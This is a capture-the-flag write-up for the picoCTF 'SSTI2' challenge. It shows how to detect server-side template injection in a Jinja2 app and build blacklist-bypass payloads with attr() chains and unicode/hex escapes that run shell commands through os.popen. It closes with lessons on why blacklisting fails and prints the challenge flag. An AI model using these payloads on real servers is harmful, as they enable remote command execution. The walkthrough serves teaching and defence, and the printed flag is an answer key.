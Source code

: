 **Challenge:** SSTI2

**Level:** Medium

**Challenge Author:** Venax

### Description: 
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)


### Step-by-Step Walkthrough:
 Upon opening the webpage, you are greeted by a website with various nodes and interactive elements and the title `NAND Simulator`

## Investigation
All good web page vulnerability inspections will generally comprise of two things:

1. Using the Web Page Inspector
2. Testing all the interactive elements

Our first hint comes from the title of the challenge. SSTI stands for Server Side Template Injection, and we've been here before in `SSTI1`. So we can expect a vulnerability in the submission form somehow.

## Investigation - Testing Injections
Reviewing this [site](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) we can run through some test injections

The attacker tests the identified input field by injecting template syntax specific to the template engine in use. Different web frameworks use different template engines (e.g., Jinja2 for Python, Twig for PHP, or FreeMarker for Java).
In most cases, the polyglot input: `‘${{<%[%'"}}%\.’`, can often be utilized to detect a vulnerability. If it errors out, we know we're on the right track. 

Unfortunately, we're treated to a message `Stop trying to break me` in an angry tone. I'm not sure what this means for us, so let's try and work through this one step at a time, following the template on `PayloadsAllTheThings`

1. `${7*7}` - Fail
2. `{{7*7}}` - Success
3. `{{7*'7'}}` - Success

Therefore, we are looking at a potential vulnerability of either `Jinja2` or `Twig`, although the typical injections are rejected. 

`{{#}}` - Fails
`{{printf}}` - Succeeds
`{{printf ""}}` - Fails

I can deduce a few things. 

1. `{{}}` wraps a command and some commands can succeed, but there are some boundaries on the server side 
3. Some of the characters seem to be completely blacklisted


## Learning - escape sequences
We're going to replace elements one at a time from the previous command with alternative characters. Here's the original command:

`{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}`

first, let's replace all `_` with unicode. Unicode has an `escape sequence`

An `escape sequence` is a combination of characters used to represent special characters in a string that cannot be typed directly or would otherwise have a different meaning. Escape sequences usually start with a backslash (`\`) followed by one or more characters. The `escape sequence` for `_` is `\x5f`

## Action - Replacing the code

Our command now looks like this:

```
{{self.\u005f\u005finit\u005f\u005f.\u005f\u005fglobals\u005f\u005f.\u005f\u005fbuiltins\u005f\u005f.\u005f\u005fimport\u005f\u005f('os').popen('cat flag').read()}}
```

Now replace the `.` characters

```
{{ self|attr('\u005f\u005finit\u005f\u005f')|attr('\u005f\u005fglobals\u005f\u005f')|attr('\u005f\u005fbuiltins\u005f\u005f')|attr('\u005f\u005fimport\u005f\u005f')('os')|attr('popen')('cat flag')|attr('read')() }}
```
Now fix the `self` command

```
{{ request|attr('self')|attr('\u005f\u005finit\u005f\u005f')|attr('\u005f\u005fglobals\u005f\u005f')|attr('\u005f\u005fbuiltins\u005f\u005f')|attr('\u005f\u005fimport\u005f\u005f')('os')|attr('popen')('cat flag')|attr('read')() }}
```

Finally, add in the `getitem` request

```
{{ request|attr('self')|attr('\u005f\u005finit\u005f\u005f')|attr('\u005f\u005fglobals\u005f\u005f')|attr('\u005f\u005fgetitem\u005f\u005f')('\u005f\u005fbuiltins\u005f\u005f')|attr('\u005f\u005fgetitem\u005f\u005f')('\u005f\u005fimport\u005f\u005f')('os')|attr('popen')('cat flag')|attr('read')() }}
```

This last command will net you the flag, and just for learning sake, you can also use `hex` instead of `unicode` with the `escape sequence` as follows:

```
{{ request|attr('self')|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')() }}
```

## Learning - blacklisting characters doesn't work
It's hard to stay on top of things is the lesson here. Just because you fix one hole, doesn't mean you've fixed the ship. 


* There are often alternative encodings, representations, or similar characters that can slip past the blacklist (e.g., using Unicode, URL encoding, or case variations).
* Incomplete coverage: It’s difficult to anticipate and block every dangerous character or sequence, so some may be missed.
* Maintenance is hard: New attack techniques or characters may emerge, requiring constant updates to the blacklist.
* False sense of security: Developers may believe input is safe when it’s not, leading to vulnerabilities like SQL injection, XSS, or command injection.

Instead of trying to patch holes, there are better methods.

* Whitelisting (Allow-listing): Only allow specific, known-safe characters, patterns, or formats in user input.

* Input Validation: Strictly check that input matches expected types, lengths, and formats before processing.

* Context-Aware Escaping/Encoding: Escape or encode user input based on where it will be used (e.g., HTML, SQL, shell, URL).

* Use Security Libraries and Frameworks: Rely on well-maintained libraries for input handling and sanitization.

* Least Privilege Principle: Run applications with the minimum permissions necessary.

* Output Encoding: Encode output data to prevent injection when displaying user input.

<details><summary>Flag</summary>
    <pre>
    picoCTF{sst1_f1lt3r_byp4ss_e964f71b}
    </pre>
   </details>